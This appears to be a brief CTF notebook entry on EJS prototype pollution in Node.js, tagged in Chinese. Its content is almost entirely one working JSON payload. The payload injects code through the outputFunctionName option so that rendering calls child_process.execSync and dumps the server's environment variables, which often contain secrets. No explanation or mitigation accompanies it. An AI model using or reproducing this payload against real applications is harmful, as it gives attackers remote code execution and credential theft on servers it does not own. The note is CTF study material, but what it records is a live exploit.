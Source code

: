 tags:: CTFWEB/JS, CTFWEB/JS/原型链污染, CTFWEB/NodeJS/EJS

- EJS原型链污染
- payload:
	- ```json
	  {"__proto__":{"__proto__":{"outputFunctionName":"__tmp1; return global.process.mainModule.constructor._load('child_process').execSync('env'); __tmp2"}}}
	  ```